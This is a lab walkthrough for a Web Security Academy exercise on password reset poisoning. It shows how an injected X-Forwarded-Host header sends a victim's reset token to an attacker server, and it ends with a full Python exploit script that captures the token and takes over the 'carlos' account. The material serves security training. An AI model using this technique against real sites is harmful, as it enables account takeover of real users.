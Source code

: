 # Lab: Password reset poisoning via middleware

This lab is vulnerable to password reset poisoning. The user carlos will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

---

# Password Reset Flow:

### Click on `Forgot password?`:
![image](https://github.com/user-attachments/assets/a03835d0-333d-48d2-bd90-145771698435)

---

### Enter the username:
![image](https://github.com/user-attachments/assets/e3297070-437e-4cc7-9938-ea19c19ab408)

---

### Access our email by clicking `Go to exploit server`, then scrolling down and clicking on `Email client`:
![image](https://github.com/user-attachments/assets/6898b6d6-9360-4c9c-9393-7036eac7969d)

---

### Click on the link provided in the email:
![image](https://github.com/user-attachments/assets/d2ebabb0-b7cc-4e3d-b7b4-5345f4a8f46b)


---

### Enter the new password in the form:
![image](https://github.com/user-attachments/assets/aea95600-47b1-4228-bef0-434f52cc206e)

---

## Attempt to replicate the process for the user `carlos`. Send the main requests of the process to the repeater.

We can see that the server constructs the "reset link" using the `Origin` header value, for example, "https://0a2f00ae043060bb82564d82004c006e.web-security-academy.net/". We can attempt to trick the server by injecting the `X-Forwarded-Host` header. If the server prioritizes the `X-Forwarded-Host` header over the `Origin` header, it would use the malicious value provided in the `X-Forwarded-Host` header to construct the reset link.

By injecting the X-Forwarded-Host header, we can manipulate the value the server uses to construct the reset link. For instance, if we send the following request:
![image](https://github.com/user-attachments/assets/72260c58-93a4-42de-bf45-b49dee829e60)

---

### Check our email and confirm that we have received an email with the password reset URL pointing to our server:
![image](https://github.com/user-attachments/assets/30037c03-e232-41bd-aabb-7e659bf1dcdd)

---

### As observed, this injection could be used to execute an attack.

---

### Send the same request but for the user `carlos`:
![image](https://github.com/user-attachments/assets/715daa03-a69e-4c53-8090-3248592baa03)

---

### Wait to receive the password reset request on our server:
![image](https://github.com/user-attachments/assets/dadeb2a2-bd96-4516-b5eb-c94b256e7d43)

---

### Send the `GET` request to access the reset form:
![image](https://github.com/user-attachments/assets/2870b5f8-f8f5-4d53-8120-81cdcf8135d8)

---

### Reset the password:
![image](https://github.com/user-attachments/assets/14823296-df73-478d-8501-74c3d4de5a80)

---

### Log in and solve the lab:
![image](https://github.com/user-attachments/assets/9b99c0f8-92f9-4a80-8e23-bb5325f0cc20)


---

- Exploit:

```python
from bs4 import BeautifulSoup
import re
import requests
import urllib3


urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
session = requests.Session()
url = 'https://0a0c004703e21a82816743f3003d0057.web-security-academy.net'


resp = session.get(url, verify=False, proxies=proxies)
html = resp.content.decode()

soup = BeautifulSoup(html, 'html.parser')
url_server = soup.find("a", id="exploit-link")["href"]  # i.e: https://exploit-0a9e006f04d05b02810f4c110147007e.exploit-server.net
url_exploit = url_server + '/exploit'
url_email = url_server + '/email'
url_log = url_server + '/log'
url_forgot_password = url + '/forgot-password'

r_get_forg_pass = session.get(url_forgot_password, verify=False, proxies=proxies)
url_forwarded = url_server.split('://')[1]
data = {'username':'carlos'}
headers = {'X-Forwarded-Host':url_forwarded}
r_post_forg_pass = session.post(url_forgot_password, data=data, headers=headers, verify=False, proxies=proxies)
r_email = session.get(url_email, verify=False, proxies=proxies)

r_log = session.get(url_log, verify=False, proxies=proxies)

soup = BeautifulSoup(r_log.text, 'html.parser')
pre_content = soup.find('pre').getText().splitlines()
lines = [line.strip() for line in pre_content if 'GET /forgot-password?temp-forgot-password-token=' in line]
line = lines[-1]
pattern = r'GET (/forgot-password\?temp-forgot-password-token=[\w\d]+)'
match = re.search(pattern, line)
temp_token_url = match.group(0).split(' ')[1]
token = temp_token_url.split('=')[1]

url_reset_password = url + temp_token_url
r_get_reset_password = session.get(url_reset_password, verify=False, proxies=proxies)
soup = BeautifulSoup(r_get_reset_password.text, 'html.parser')
params = soup.find_all('input')
token_param = params[0]['name']
pwd_1 = params[1]['name']
pwd_2 = params[2]['name']
data = {token_param:token, pwd_1:'password', pwd_2:'password'}
r_post_reset_password = session.post(url_reset_password, data=data, verify=False, proxies=proxies)

url_login= url + '/login'
data = {'username':'carlos', 'password':'password'}
r_post_login = session.post(url_login, data=data, verify=False, proxies=proxies)

if 'Your username is: carlos' in r_post_login.text:
    print('Lab Solved!')
```
